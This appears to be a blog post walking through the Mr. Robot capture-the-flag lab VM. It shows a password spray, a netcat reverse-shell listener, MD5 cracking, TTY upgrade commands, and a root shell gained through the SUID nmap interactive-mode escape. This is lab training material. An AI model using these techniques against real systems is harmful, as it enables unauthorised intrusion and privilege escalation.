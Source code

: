 ```yaml
---
layout: post
title: Elliot
date: 09-05-2025
categories: [medium]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQQ-wEVmL83jyrWR4RDI9C3wvdlGdmiheafEg&s"
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }
![Screenshot From 2025-05-09 07-03-28](https://github.com/user-attachments/assets/81acc344-70c2-43c8-b5bb-c0a62b817c0b)

## Scanning
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 05:42 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8D:AF:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.07 seconds


```

## Enumatration 
Testing using burb suite i hghave identfy the user elliot is present by testing one password and spray the user lists.
Using burbsuite
![Screenshot From 2025-05-09 05-57-04](https://github.com/user-attachments/assets/c70dbb6e-24c7-4d27-8cb7-7eb59af5723e)


```
elliot:ER28-0652
```

## Initial access
 using pntest monkey to have the reverse shell. Under conditio i have truiied to see in wp-contents.php but cant access this place. But in every place with an error there is an error page now we can use this as out gate way execution to get the initial access of the target.
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/hack]
└─$ nc -lnvp 1234                
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 54157
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 06:09:58 up 33 min,  0 users,  load average: 0.01, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
![Screenshot From 2025-05-09 06-10-10](https://github.com/user-attachments/assets/b5f2f009-6eca-4314-80ee-ef0abeee0c34)

## Privilge escalation 
we can see there is mr robot in the user and the passwoird key md5.
```
$ cd robot
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```
## Cracking the password
![Screenshot From 2025-05-09 06-52-10](https://github.com/user-attachments/assets/9554366f-29c1-40d2-ac8b-faaa566ad33f)
Once elliot sayed every one uses simple and common password.

```
abcdefghijklmnopqrstuvwxyz: abcdefghijklmnopqrstuvwxyz

```
## Try switch the user to robot
Initilally the root access will fail because the terminal is not stable.
![Screenshot From 2025-05-09 06-57-32](https://github.com/user-attachments/assets/93e00c5d-c8b7-4261-aa50-0c4abbde9d48)

> Hellow friend.
{: .prompt-hint }

```
daemon@linux:/tmp$ su robot
su robot
su: must be run from a terminal
daemon@linux:/tmp$ script /dev/null -c bash
script /dev/null -c bash
daemon@linux:/tmp$ su robot 
Password: 
su: Authentication failure
daemon@linux:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/tmp$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp$ whoami
whoami
robot

```

## Privilage escalation and gain access
> TRy see if we can get any of the vuln files
{: .prompt-tip }
SUID file
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 68K Feb 12  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 93K Feb 12  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)

```
## Exploiting NMAP
> Simple right. But if you havent leved up your shell nop nop! sorry.
{: .prompt-tip }

```
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 

Bogus command -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# pwd
pwd
/root
# ls
ls
firstboot_done	key-3-of-3.txt
# 


```
![Screenshot From 2025-05-09 06-54-26](https://github.com/user-attachments/assets/5fd7e122-53f6-471f-9598-f55ddbf07119)

> Have you learn any thing? text me on whatsapp see my about and tell me the lab lab you think i have to solve and see how we will move move together.
{: .prompt-tip }

